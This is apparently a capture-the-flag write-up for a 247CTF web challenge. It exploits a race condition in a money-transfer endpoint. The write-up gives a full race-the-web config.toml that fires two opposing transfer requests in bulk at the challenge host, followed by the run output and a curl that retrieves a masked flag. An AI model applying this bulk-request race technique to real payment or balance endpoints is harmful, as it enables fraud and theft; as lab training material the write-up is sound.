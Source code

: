 exploit race condition

2 type requests send in bulk at the sametime,
it's will make occure the race condition

I used super useful and strong tool,,

https://github.com/TheHackerDev/race-the-web

this tool is are so nice and fast

```
->$ race-the-web config.toml
```
this tool requre the config.toml in argument:

    request type1: ?to=1&from=2&amount=50.
    request type2: ?to=2&from=1&amount=50.

config.toml
```
# Specify the first request
[[requests]]
    # Use the GET request method
    method = "GET"
    # Set the URL target. Any valid URL is accepted, including ports, https, and parameters.
    url = "https://e634a9e3f05457b9.247ctf.com/?to=2&from=1&amount=50"
    # Set the request body.
    # body = "body=text"
    # Set the cookie values to send with the request to this target. Must be an array.
    #cookies = ["",""]
    # Set custom headers to send with the request to this target. Must be an array.
    #headers = ["X-Originating-IP: 127.0.0.1", "X-Remote-IP: 127.0.0.1"]
    # Follow redirects
    #redirects = true

# Specify the second request
[[requests]]
    # Use the POST request method
    method = "GET"
    # Set the URL target. Any valid URL is accepted, including ports, https, and parameters.
    url = "https://e634a9e3f05457b9.247ctf.com/?to=1&from=2&amount=50"
    # Set the request body.
    #body = "val=1000"
    # Set the cookie values to send with the request to this target. Must be an array.
    #cookies = ["",""]
    # Set custom headers to send with the request to this target. Must be an array.
    #headers = ["X-Originating-IP: 127.0.0.1", "X-Remote-IP: 127.0.0.1"]
    # Do not follow redirects
    #redirects = false

```

run 
```
->$ race-the-web config.toml 
Requests begin.
[VERBOSE] Sending 200 GET requests to https://e634a9e3f05457b9.247ctf.com/?to=1&from=2&amount=50
[VERBOSE] Sending 200 GET requests to https://e634a9e3f05457b9.247ctf.com/?to=2&from=1&amount=50
```

finish

```
->$ curl https://e634a9e3f05457b9.247ctf.com/?flag\&from=2
247CTF{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```
